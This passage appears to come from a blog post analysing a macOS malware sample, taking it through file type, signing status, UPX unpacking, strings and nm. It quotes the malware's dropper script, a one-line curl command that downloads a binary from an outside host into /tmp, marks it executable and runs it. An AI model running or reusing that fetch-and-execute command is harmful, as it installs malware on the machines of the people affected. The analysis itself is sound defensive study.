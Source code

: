 And that is the script that will be run.

```sh
#!/bin/bash

cd /tmp; curl -sL https://d.github.wiki/mac/darwinx64 -O; chmod +x darwinx64; ./darwinx64;
```
So this is just downloading a file from the internet, giving it execute permission, and running it.

After downloading the file I found that the file is a `Mash-o` executable.

![Error](/assets/images/malware-analysis/MacOsX_Malware_Analysis/file.png)

These are the very basic static analysis results that we mentioned that show

- the file supports one architicure (x86_64) 
- file is not signed at all
- file is not accepted to run on the system.

we mentioned before that all this can be bypassed, It's somehow hard but possible.

Let us continue our analysis and get more interesting info about the file.

by running `strings` against the file we will notice this famous line.

![Error](/assets/images/malware-analysis/MacOsX_Malware_Analysis/upx.png)

After unpacking the file we can extract more informations like the library used by the file.

![Error](/assets/images/malware-analysis/MacOsX_Malware_Analysis/lib.png)

another tool which will be worth running is `nm` tool which resolves the symbols in the file which may give you more understanding of the file functionality.

